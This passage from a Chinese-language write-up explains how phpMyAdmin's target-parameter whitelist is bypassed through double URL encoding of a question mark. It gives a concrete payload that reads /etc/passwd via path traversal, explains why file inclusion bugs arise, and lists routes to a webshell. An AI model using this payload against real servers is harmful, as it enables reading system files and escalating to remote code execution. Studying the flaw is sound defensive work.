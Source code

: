   ```php
        'pdf_pages.php',
        'pdf_schema.php',
        'server_binlog.php',
        'server_collations.php',
        'server_databases.php',
        'server_engines.php',
        'server_export.php',
        'server_import.php',
        'server_privileges.php',
        'server_sql.php',
        'server_status.php',
        'server_status_advisor.php',
        'server_status_monitor.php',
        'server_status_queries.php',
        'server_status_variables.php',
        'server_variables.php',
        'sql.php',
        'tbl_addfield.php',
        'tbl_change.php',
        'tbl_create.php',
        'tbl_import.php',
        'tbl_indexes.php',
        'tbl_sql.php',
        'tbl_export.php',
        'tbl_operations.php',
        'tbl_structure.php',
        'tbl_relation.php',
        'tbl_replace.php',
        'tbl_row_action.php',
        'tbl_select.php',
        'tbl_zoom_select.php',
        'transformation_overview.php',
        'transformation_wrapper.php',
        'user_password.php',
    );
```

之后phpMyAdmin的开发团队考虑到了target后面加参数的情况，**通过字符串分割将问号的前面部分取出**，继续匹配白名单，然后经过一遍urldecode后再重复动作。

得到payload
```php
target=db_datadict.php%253f/../../../../../../../../etc/passwd
```
### 此处再次~~分析~~胡扯文件包含漏洞的具体产生原因
- 程序员一般会把**重复使用的函数写到单个文件中**，需要使用某个函数时直接调用此文件，而无需再次编写，文件调用的过程一般被称为**文件包含**。
- 他们希望代码更灵活，所以将**被包含的文件设置为变量**，用来进行动态调用，
- 但正是由于这种灵活性，从而导致**客户端可以调用一个恶意文件**，造成文件包含漏洞。
- **几乎所有脚本语言都会提供文件包含的功能**，但文件包含漏洞在PHP Web Application中居多而在JSP、ASP、程序中却非常少，甚至没有，这是本身语言设计的弊端(猜测


------------
# Getshell
- 上传图片GETshell
- 读取文件，读取php文件
- 包含日志文件获取webshell
 